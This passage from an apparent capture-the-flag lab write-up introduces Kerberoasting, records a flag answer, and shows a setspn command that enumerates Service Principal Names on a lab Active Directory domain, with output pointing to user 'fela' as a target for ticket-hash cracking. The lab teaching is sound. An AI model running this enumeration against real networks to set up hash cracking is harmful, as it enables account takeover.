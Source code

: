 Answer: `flag{a12a41b5f8111327690f836e9b302f0b}`

# [Task 3] Kerberoasting

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

["SANS Webcast: Kerberos & Attacks 101"](https://www.youtube.com/watch?v=LmbP-XD1SC8)

Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!

## #3.1

**Lets first enumerate Windows. If we run `setspn -T medin -Q ​ */*` we can extract all accounts in the SPN.**

**SPN is the Service Principal Name, and is the mapping between service and account.**

**Running that command, we find an existing SPN. What user is that for?**

*Hint: `C:\Windows\system32\cmd.exe` - The location of CMD*

~~~
c:\Users\dark\Desktop>setspn -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
~~~

